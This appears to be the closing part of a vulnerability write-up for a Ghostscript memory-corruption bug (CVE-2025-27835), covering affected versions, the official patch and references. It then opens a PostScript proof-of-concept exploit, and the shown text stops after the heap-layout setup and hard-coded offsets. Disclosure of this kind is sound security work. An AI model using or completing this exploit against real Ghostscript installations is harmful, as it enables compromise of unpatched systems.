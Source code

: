 ## Impact

This affects all x64 Linux systems running Ghostscript versions prior to 10.05.0. The exploit also worked on an ARM 7.2 machine (again running Ghostscript versions prior to 10.05.0). 

## Mitigations
### GhostScript v10.05.1 Official Patch
As of GhostScript version 10.05.1, the exploit has been patched by changing the vulnerable memcpy line from copying `l * sizeof(short)` to simply `l` bytes. 

<img src="./Images/patch.png" alt="picture of patch showing last argument of memcpy goes from l * sizeof(short) to just l" style="display:block; margin:auto;">

## References

- [Source Code](https://github.com/ArtifexSoftware/ghostpdl/blob/41b1cf43a0705f097699261b5738cbdbed50091f/psi/zbfont.c)
- [Ghostscript 10.04.0](https://github.com/ArtifexSoftware/ghostpdl-downloads/releases/tag/gs10040)
- [CVE](https://www.cve.org/CVERecord?id=CVE-2025-27835)
- [Bug Report](https://bugs.ghostscript.com/show_bug.cgi?id=708131)
- [Patch](https://cgit.ghostscript.com/cgi-bin/cgit.cgi/ghostpdl.git/commit/?id=920fae68870)
- [pwndbg](https://github.com/pwndbg/pwndbg)

## Full Proof of Concept Code

```postscript
% gs -q -sDEVICE=txtwrite -sOutputFile=/dev/null glyphunicode.ps

500000000 setvmthreshold

/REFIDX 249888 def
/REFOFS 3248640 def

/STROBJ 1000 string def
/ARROBJ 6250 array def
/OBJARR 32 array def
OBJARR 0 STROBJ put
OBJARR 1 ARROBJ put
/TARGET null def

/MAGIC null def
/STRPTR null def
/ARRPTR null def

% <dststr> <dstidx> <srcstr> <srcidx> <length> copystr -
/copystr {
```
